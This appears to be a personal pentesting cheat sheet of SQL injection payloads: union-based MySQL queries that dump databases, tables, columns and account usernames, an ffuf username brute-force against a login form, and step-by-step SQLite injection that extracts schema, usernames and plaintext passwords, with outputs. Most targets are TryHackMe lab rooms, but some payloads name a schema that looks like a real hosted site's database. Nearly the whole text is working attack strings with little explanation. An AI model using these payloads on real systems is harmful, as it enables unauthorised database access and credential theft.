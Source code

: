 
### UNION BASED SQLI
info gathering 
```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- - 
```

column dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```
or
```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```

ref:-
https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/
https://book.hacktricks.xyz/pentesting-web/sql-injection



### Username Brutforce with FFUF

simple request
![Alt text](image.png)

save  req to req.txt
```
POST / HTTP/1.1
Host: 10.10.128.5
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.128.5
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.128.5/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=FUZZ'AND+1=1+--+-&password=a
```

run below FFUF command
```
ffuf -request req.txt -u http://10.10.128.5/ -w ~/Tools/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
```
![[Pasted image 20230903233728.png]]
NOTE:- we might need to pass -u with url to use http or https


python script :-
https://github.com/BhattJayD/LessonLearned-BruteForce-Script
Tested on https://tryhackme.com/room/lessonlearned

### SQLITE Sql injection

Useful link to follow:-
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://tryhackme.com/room/unstabletwin#

##### 1st step SIMPLE ENUM

```sqlite
username=admin&password=aa'union select 1,sqlite_version() -- -
```

```json
[
  [
    1, 
    "3.26.0"
  ]
]

```

##### 2nd step  TABLE NAME EXTRACTION

```
username=admin&password=aa'union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%' -- -
```

```json
[
  [
    1, 
    "users,notes"
  ]
]

```

##### 3rd step COLUMN NAME EXTRACTION

```sqlite
username=admin&password=aa'union select 1,sql from sqlite_master where type!='meta' and sql not null and name not like 'sqlite_%' and name='notes' limit 3 -- -
```

```sql
[
	[
		1,
		"CREATE TABLE notes ( id INTEGER UNIQUE, user_id INTEGER, note_sql INTEGER, notes TEXT,PRIMARY KEY( id ))"
	]
]
```


##### 4rd step DATA EXTRACTION FROM COLUMN

```sqlite
username=admin&password=aa'union select 1,username from users limit 10 -- -
```

```json
[
  [
    1, 
    "julias"
  ], 
  [
    1, 
    "linda"
  ], 
  [
    1, 
    "marnie"
  ], 
  [
    1, 
    "mary_ann"
  ], 
  [
    1, 
    "vincent"
  ]
]
```

```sqlite
username=admin&password=aa'union select (group_concat(password)),(group_concat(username)) from users limit 1 -- -
```

```json
[
  [
    "continue...,Red,Orange,Green,Yellow ", 
    "mary_ann,julias,vincent,linda,marnie"
  ]
]
```
